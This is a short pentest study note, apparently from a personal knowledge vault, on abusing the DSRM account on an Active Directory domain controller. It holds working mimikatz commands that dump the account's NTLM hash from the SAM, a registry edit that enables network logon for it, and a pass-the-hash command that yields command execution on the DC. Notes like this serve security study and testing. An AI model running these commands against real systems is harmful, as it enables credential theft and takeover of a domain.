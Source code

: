 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#powershell #mimikatz 
- Stands for Directory Services Restore Mode.
- By default, we can't login as the local Administrator in the DC. The password for this account is the DSRM password which was setup during the server installation.
- DSRM password is also called the SafeMode password. It is required when a server is promoted to Domain Controller, or when the server is rebooted in the Safe Mode.
- This password is not automatically changed.
- As this user is the local administrator, there is no AES keys for this user. We can only dump it's NTLM hash. 
# Abuse
- Dump DSRM password (Required Domain Administrator Privs)
```powershell
token::elevate
lsadump::sam # As DSRM password is a local account, we dump the local SAM database.
```
- This DSRM password can be used to perform Pass-The-Hash attacks
```powershell
# DSRM Administrator, by default, cannot login from the system, and can only login from the physical console or the virtual console.
# Registry edits are required to enable logon over network.
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD

# Can be verified with
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa"

# Now the hash of this Account can be used to perform pass the hash and get command exection on the DC
sekurlsa::pth /domain:<dc-hostname> /user:Administrator /ntlm:<hash> /run:powershell.exe

# verificaiton
ls \\<dc-machine>\C$
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
